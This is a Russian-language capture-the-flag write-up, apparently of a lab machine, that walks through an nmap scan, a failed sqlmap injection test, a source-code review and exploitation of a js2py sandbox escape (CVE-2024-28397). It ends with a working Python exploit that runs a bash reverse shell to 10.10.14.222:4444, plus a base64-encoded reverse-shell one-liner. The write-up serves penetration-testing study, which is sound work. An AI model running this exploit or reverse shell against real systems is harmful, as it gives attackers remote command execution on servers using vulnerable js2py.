

Сначало я сканирую nmap цель:

```bash
nmap -sV 10.129.113.73
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-08-22 20:21 EEST
Nmap scan report for 10.129.113.73
Host is up (0.083s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
8000/tcp open  http    Gunicorn 20.0.4
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Вижу открытый 8000 и 22 порт, 


Попробовал проверить форму логинга на SQL инекцию:

```bash
username=%27+OR+1%3D%3D1+--&password=123456789

HTTP/1.1 200 OK
Server: gunicorn/20.0.4
Date: Fri, 22 Aug 2025 17:43:55 GMT
Connection: close
Content-Type: text/html; charset=utf-8
Content-Length: 19

Invalid credentials

sqlmap -r request.txt --batch --dbs
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.8.4#stable}
|_ -| . [.]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 20:52:44 /2025-08-22/

[20:52:44] [INFO] parsing HTTP request from 'request.txt'
[20:52:44] [INFO] testing connection to the target URL
[20:52:45] [INFO] testing if the target URL content is stable
[20:52:45] [INFO] target URL content is stable
[20:52:45] [INFO] testing if POST parameter 'username' is dynamic
[20:52:45] [WARNING] POST parameter 'username' does not appear to be dynamic
[20:52:46] [WARNING] heuristic (basic) test shows that POST parameter 'username' might not be injectable
[20:52:46] [INFO] testing for SQL injection on POST parameter 'username'
[20:52:46] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[20:52:47] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[20:52:47] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[20:52:47] [INFO] testing 'PostgreSQL AND error-based - WHERE or HAVING clause'
[20:52:48] [INFO] testing 'Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause (IN)'
[20:52:49] [INFO] testing 'Oracle AND error-based - WHERE or HAVING clause (XMLType)'
[20:52:49] [INFO] testing 'Generic inline queries'
[20:52:50] [INFO] testing 'PostgreSQL > 8.1 stacked queries (comment)'
[20:52:50] [INFO] testing 'Microsoft SQL Server/Sybase stacked queries (comment)'
[20:52:51] [INFO] testing 'Oracle stacked queries (DBMS_PIPE.RECEIVE_MESSAGE - comment)'
[20:52:52] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[20:52:52] [INFO] testing 'PostgreSQL > 8.1 AND time-based blind'
[20:52:53] [INFO] testing 'Microsoft SQL Server/Sybase time-based blind (IF)'
[20:52:54] [INFO] testing 'Oracle AND time-based blind'
it is recommended to perform only basic UNION tests if there is not at least one other (potential) technique found. Do you want to reduce the number of requests? [Y/n] Y
[20:52:55] [INFO] testing 'Generic UNION query (NULL) - 1 to 10 columns'
[20:52:57] [WARNING] POST parameter 'username' does not seem to be injectable
[20:52:57] [INFO] testing if POST parameter 'password' is dynamic
[20:52:57] [WARNING] POST parameter 'password' does not appear to be dynamic
[20:52:57] [WARNING] heuristic (basic) test shows that POST parameter 'password' might not be injectable
[20:52:57] [INFO] testing for SQL injection on POST parameter 'password'
[20:52:57] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[20:52:58] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[20:52:58] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[20:52:59] [INFO] testing 'PostgreSQL AND error-based - WHERE or HAVING clause'
[20:53:00] [INFO] testing 'Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause (IN)'
[20:53:00] [INFO] testing 'Oracle AND error-based - WHERE or HAVING clause (XMLType)'
[20:53:01] [INFO] testing 'Generic inline queries'
[20:53:01] [INFO] testing 'PostgreSQL > 8.1 stacked queries (comment)'
[20:53:02] [INFO] testing 'Microsoft SQL Server/Sybase stacked queries (comment)'
[20:53:03] [INFO] testing 'Oracle stacked queries (DBMS_PIPE.RECEIVE_MESSAGE - comment)'
[20:53:03] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[20:53:04] [INFO] testing 'PostgreSQL > 8.1 AND time-based blind'
[20:53:05] [INFO] testing 'Microsoft SQL Server/Sybase time-based blind (IF)'
[20:53:05] [INFO] testing 'Oracle AND time-based blind'
[20:53:06] [INFO] testing 'Generic UNION query (NULL) - 1 to 10 columns'
[20:53:08] [WARNING] POST parameter 'password' does not seem to be injectable
[20:53:08] [CRITICAL] all tested parameters do not appear to be injectable. Try to increase values for '--level'/'--risk' options if you wish to perform more tests. If you suspect that there is some kind of protection mechanism involved (e.g. WAF) maybe you could try to use option '--tamper' (e.g. '--tamper=space2comment') and/or switch '--random-agent'
[20:53:08] [WARNING] your sqlmap version is outdated

```

Результата нет.

Идем дальше 

Так внутри у нас редактор кода с возможность его запускать, это уже интересно. На скрине видно, что поддерживается JS.

Решил проверить ранится ли код на сервере, это была бы входная точка для RCE:




```bash
typeof window
```

Если вернёт "undefined" → это не браузер, а Node.js → потенциально RCE.

Если вернёт "object" → код просто крутится в iframe браузера, неинтересно.

К сожалению вернуло - object...

Проверил на XXS - ничего


После теста редавтора кода с попткой выхода с песочницы я ничего не получил, нужно копать дальше:

В веб приложении есть функция скаивания, где можно скачать исходный код приложения:

Иследуя код я нашел этот момент:

```python
@app.route('/run_code', methods=['POST'])
def run_code():
    try:
        code = request.json.get('code')
        result = js2py.eval_js(code)
        return jsonify({'result': result})
    except Exception as e:
        return jsonify({'error': str(e)})
```

Это и есть та точка входа, и я нашел уязвимость:

https://github.com/Marven11/CVE-2024-28397-js2py-Sandbox-Escape/blob/main/analysis_zh.md

Далее експлуатация:

берем готовый POC и меняем его под нас:

```bash
~/codetwo$ echo '(bash >& /dev/tcp/10.10.14.222/4444 0>&)' | base64
KGJhc2ggPiYgL2Rldi90Y3AvMTAuMTAuMTQuMjIyLzQ0NDQgMD4mKQo=
```

```python
import requests
import json

url = 'http://codetwo.thb:8000/run_code'

js_code = """
var F = (function(){}).constructor;                      // Function
var os = F("return __import__('os')")();                 // доступ к Python os
// Проверь, что код выполняется:
os.system("id");

// Реверс-шелл (замени IP:PORT):
os.system("bash -c 'bash -i >& /dev/tcp/10.10.14.222/4444 0>&1'");
"""

payload = {"code": js_code}

headers = {"Content-Type": "application/json"}

response = requests.post(url, data=json.dumps(payload), headers=headers)
print(response.text)
```


